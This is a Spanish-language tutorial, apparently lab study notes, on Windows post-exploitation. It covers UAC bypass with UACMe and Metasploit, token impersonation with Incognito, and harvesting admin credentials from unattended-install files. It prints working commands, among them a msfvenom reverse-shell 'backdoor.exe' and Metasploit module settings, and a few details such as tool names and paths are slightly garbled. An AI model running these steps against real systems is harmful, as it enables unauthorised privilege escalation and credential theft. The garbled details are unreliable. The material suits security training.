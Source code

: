 <h1 align="center">POST EXPLOTACIÓN WINDOWS</h1>

## **Bypass UAC con UACMe**

El Control de Cuentas de Usuario (UAC) es la notificación que aparece en Windows cuando se intenta ejecutar un programa con permisos de administrador. UACMe es una herramienta que permite bypassear el UAC sin necesidad de ingresar la contraseña de un administrador local para elevar los privilegios de un programa.

### **Requisitos**

Es necesario tener control de un usuario dentro del grupo de administradores locales y que la configuración de UAC no se haya modificado desde la instalación de Windows.

### **Proceso**

Lo primero que debemos hacer es conseguir una sesión de meterpreter en la máquina víctima y migrarla a explorer.exe para conseguir una sesión de 64 bits.

![image](https://github.com/user-attachments/assets/516c78f1-b086-4d83-b71b-713da08df9f1)

Ahora, tenemos una sesión de meterpreter con el usuario admin. Este usuario está en el grupo de administradores locales, lo que le permite ejecutar programas con permisos de administrador, aunque dispone de bajos privilegios (por ejemplo, no puede ejecutar un payload con permisos de administrador)

![image](https://github.com/user-attachments/assets/89df7b86-ed70-4f44-b997-9dc96ee96168)

Para elevar los privilegios, nos descargamos el repositorio de UACMe desde github.

Vamos a bypasear el UAC para ejecutar este payload de msfvenom para crear una sesión de meterpreter con para aumentar nuestros privilegios:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=\*ip\*LPORT=1234 -f exe > backdoor.exe`

Después, en Metasploit, utilizamos multi/handler y establecemos el mismo payload que en msfvenom:

- set PAYLOAD windows/meterpreter/reverse_tcp

Volvemos a la sesión de meterpreter, vamos a la carpeta C:\\temp y subimos nuestro payload y el ejecutable Akagy64:

- `upload backdoor.exe`
- `upload akagy64`
- `shell`

Para ejecutar backdoor.exe con permisos de administrador, utilizamos akagy64 con el siguiente comando CON RUTA COMPLETA:


`.\akagy64 23 C:\\temp\\backdoor.exe`

La _key_ depende de la versión de Windows. El número a utilizar se encuentra en el repositorio de GitHub. Para instalar paquetes en Windows 7, utilizamos el número 23, que instala el packet manager, permitiendo la instalación de paquetes.

Si vamos al multi/handler y establecemos el mismo payload que en msfvenom, hemos conseguido una sesión de meterpreter de altos privilegios:

![image](https://github.com/user-attachments/assets/4195d38d-42bf-4660-8dfe-b7ff7fecb788)

Para conseguir el permiso de AUTHORITY/System, debemos migrar a otro proceso que esté ejecutando este usuario. Así, habremos pasado del usuario admin con altos privilegios al administrador local.

## **Bypass UAC con METASPLOIT**

- `use exploit/windows/local/bypassuac_injection`
- `set session 1`
- `set TARGET 1`
- `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

## **ACCESS TOKEN IMPERSONATION**

### **Elevación de Privilegios Mediante Suplantación de Tokens en Windows**

Los tokens de acceso de Windows son el principal elemento del proceso de autenticación y son creados y distribuidos por el servicio "Local Security Authority Subsystem Service (LSASS)". Estos tokens son generados por winlogon.exe cada vez que un usuario se autentica correctamente. El token contiene información del usuario autenticado y los privilegios asociados a un proceso, y se utiliza para restringir el acceso de los usuarios, determinando qué pueden y no pueden ejecutar.

###

### **Tipos de Tokens de Acceso**

1. **Impersonate-level tokens (tokens suplantados):**
    - Permiten actuar totalmente como el usuario cuyo token estamos suplantando.
2. **Delegate-level tokens (tokens normales):**
    - Permiten actuar parcialmente como el usuario, con permisos limitados.

Para realizar el proceso de suplantación de un "Impersonate-level token" con la intención de elevar privilegios, el usuario al que tenemos acceso debe tener los siguientes privilegios:

![image](https://github.com/user-attachments/assets/2b359a2b-12fe-47d7-ba9d-489668ddaba2)

### **Uso de Incognito para Suplantar Tokens**

Incognito es una herramienta de meterpreter que permite suplantar tokens después de la explotación de una máquina. Aquí están los pasos detallados para su utilización:

1. **Acceso a la Máquina:**

- Una vez que hemos explotado una máquina y tenemos acceso a un usuario con bajos privilegios que tiene el privilegio de SeImpersonatePrivilege.

1. **Cargar Incognito en Meterpreter:**

Si no podemos migrar la sesión a otro proceso debido a la falta de permisos, cargamos Incognito:

`load incognito`

1. **Listar Tokens Disponibles:**

`list_tokens -u`

(Somos NT AUTHORITY\\LOCAL SERVICE y queremos suplantar el token del administrador)

![image](https://github.com/user-attachments/assets/d94e2866-ed62-47b1-8900-65d147235674)


1. **Suplantar el Token del Administrador:**

Suplantamos el token de acceso de “ATTACKDEFENSE\\Administrator”:

`impersonate_token "ATTACKDEFENSE\\Administrator"`

![image](https://github.com/user-attachments/assets/bc9c98e1-74bc-4340-9821-a6ca7863cea4)

Con getuid podemos ver que ha cambiado nuestro usuario. Para poder comprobar nuestros privilegios sin que nos de ningún error tenemos que migrar la sesión a un servicio que lo esté ejecutando el usuario administrator, por ejemplo explorer.exe. Ahora comprobamos los privilegios del usuario:

![image](https://github.com/user-attachments/assets/fcc0b989-4a24-4fb1-8c33-25cb006c9d5b)

## **INSTALACIÓN DESATENDIDA**

Cuando se realiza una instalación desatendida (Proceso automático de instalación de Windows), se suele almacenar las credenciales del usuario administrador en las siguientes rutas:  

- `C:\\Windows\\Pather\\unattend.xml`
- `C:\\Windows\\Pather\\autounattend.xml`

Una vez localizamos este archivo podemos buscar la forma de logearnos con estas credenciales: psexec, winrm…
